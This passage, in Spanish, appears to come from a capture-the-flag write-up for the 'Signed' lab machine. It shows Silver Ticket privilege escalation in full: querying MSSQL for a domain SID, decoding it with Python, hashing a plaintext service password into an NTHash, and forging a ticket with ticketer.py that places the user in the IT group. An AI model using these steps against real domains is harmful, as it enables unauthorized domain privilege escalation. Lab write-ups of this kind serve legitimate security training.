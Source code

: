 ### Escalada con Silver Ticket

Para esto, necesitamos varias cosas:

* El `NTHash` de la contraseña del servicio
* El SID del dominio
* El nombre del dominio
* El `spn` objetivo
* El ID del grupo a meternos  

Qué detalles nos faltan?, el `SID` y el `NTHash`; para el SID, podemos obtenerlo desde `mssql` haciendo la query a `master.sys.syslogins`:

```js
SELECT sid,name FROM master.sys.syslogins
 sid   name                                      
-------------------------------------------------------------------   ---------------------------------------   
b'01'   sa

<SNIP!>

b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'   SIGNED\IT

<SNIP!>
```

Esto, está codificado en hexadecimal, por lo que hacemos un pequeó one liner de python para leerla:

```js
❯ python3 -c "import binascii; sid=binascii.unhexlify('<ArrayBinario>'); print('SID-{}-{}-{}'.format(sid[0], int.from_bytes(sid[2:8],'big'), '-'.join(str(int.from_bytes(sid[8+i*4:12+i*4],'little')) for i in range(sid[1]))))"
SID-1-5-21-4088429403-1159899800-2753317549-1105
```

Este script, está pasando la cadena en binario a un formato legible, separando el SID del dominio del ID del grupo al que pertenece (el `1105` que corresponde a `SIGNED\IT`). Y ahora, sólo necesitamos pasar la contraseña del servicio a `MD4` utilizando `openssl`

```js
❯ echo -n "purPLE9795\!@" | iconv -f UTF-8 -t UTF-16LE | openssl md4
MD4(stdin)= ef699375c3285c54128a3ee1ddb1a0cc
```

Y finalmente, tiramos de `ticketer` para crear nuestro `Silver Ticket` para meternos a notros mismos a el grupo `SIGNED\IT` (1105)

```js
❯ ticketer.py -nthash ef699375c3285c54128a3ee1ddb1a0cc -domain-sid SID-1-5-21-4088429403-1159899800-2753317549 -domain SIGNED.HTB -spn MSSQLSVC/DC01.SIGNED.HTB
:1433 -groups 1105 mssqlsvc
<SNIP!>
```

### Obteniendo acceso con el Silver Ticket
